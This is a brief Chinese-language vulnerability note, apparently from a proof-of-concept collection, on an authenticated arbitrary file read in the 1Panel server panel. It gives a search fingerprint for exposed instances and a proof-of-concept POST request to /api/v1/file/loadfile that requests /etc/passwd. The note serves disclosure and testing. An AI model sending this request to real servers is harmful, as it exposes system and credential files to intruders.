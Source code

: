 # 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 是一个现代化、开源的Linux 服务器运维管理面板。

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

1Panel

## 网络测绘

```
"1Panel"
```

## 漏洞复现

登陆页面

![image-20230828162515540](images/image-20230828162515540.png)

![image-20230828162528792](images/image-20230828162528792.png)

![image-20230828162539743](images/image-20230828162539743.png)

验证POC

```
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![image-20230828162553584](images/image-20230828162553584.png)